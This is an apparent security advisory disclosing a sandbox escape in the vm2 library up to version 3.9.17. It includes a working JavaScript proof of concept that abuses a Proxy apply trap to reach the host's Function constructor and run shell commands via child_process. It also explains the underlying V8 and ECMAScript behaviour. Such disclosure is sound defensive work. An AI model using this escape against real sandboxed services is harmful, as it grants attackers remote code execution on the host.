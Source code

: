 # Sandbox Escape in vm2@3.9.17

A sandbox escape vulnerability exists in [vm2](https://github.com/patriksimek/vm2) for versions up to 3.9.17. It abuses an unexpected creation of a host object based on the specification of Proxy, and allows RCE via `Function` in the host context.

## Impact

A threat actor can bypass the sandbox protections to gain remote code execution rights on the host running the sandbox.

## PoC

##
#
https://gist.github.com/arkark/e9f5cf5782dec8321095be3e52acf5ac
#
##

```js
const { VM } = require("vm2");
const vm = new VM();

const code = `
  const err = new Error();
  err.name = {
    toString: new Proxy(() => "", {
      apply(target, thiz, args) {
        const process = args.constructor.constructor("return process")();
        throw process.mainModule.require("child_process").execSync("echo hacked").toString();
      },
    }),
  };
  try {
    err.stack;
  } catch (stdout) {
    stdout;
  }
`;

console.log(vm.run(code)); // -> hacked
```

## Analysis

`err.name.toString` is called at [`ErrorPrototypeToString` in `prepareStackTrace`](https://github.com/nodejs/node/blob/v20.1.0/lib/internal/errors.js#L126) from the host context.

- `error` argument of `prepareStackTrace` is not proxied by handlers defined in [`vm2/lib/bridge.js`](https://github.com/patriksimek/vm2/blob/3.9.17/lib/bridge.js) because the function is called directly by V8.
- ref. https://v8.dev/docs/stack-trace-api

Also, the definition of `[[Call]]` internal method of a Proxy object is as follows:

- https://tc39.es/ecma262/2022/multipage/ordinary-and-exotic-objects-behaviours.html#sec-proxy-object-internal-methods-and-internal-slots-call-thisargument-argumentslist

> 7. Let argArray be CreateArrayFromList(argumentsList).<br>
> 8. Return ? Call(trap, handler, « target, thisArgument, argArray »).

When `err.name.toString` is called, the step 7 creates `argArray` in the host context and the host object is passed to `args` of `apply(target, thiz, args)`. So, you can access `Function` constructor of the host context.

## Credits

Takeshi Kaneko (GMO Cybersecurity by Ierae, Inc.)
